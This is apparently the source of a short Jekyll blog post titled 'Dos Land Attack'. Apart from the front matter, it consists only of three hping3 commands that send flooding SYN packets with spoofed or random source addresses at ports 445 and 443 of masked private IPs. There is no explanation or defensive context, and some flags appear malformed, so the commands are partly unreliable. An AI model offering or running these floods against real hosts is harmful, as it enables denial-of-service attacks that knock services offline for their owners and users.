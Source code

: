 ```yaml
---
layout: post
title: Dos Land Attack
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: Hping3
fullview: true
comments: true
---
```


{% highlight yaml %}
$ hping3 -V -C 10000000 -d 120 -S -10 64 -p 445 -S 445 --flood --rand-source 192.168.xx.xx
$ hping3 -i u1000 -S -p 443 192.168.xxx.xxx
$ hping3 -q -n 10.0.0.1 -S -s 53 --keep -p 445 --flood 192.168.xxx.xxx
{% endhighlight %}

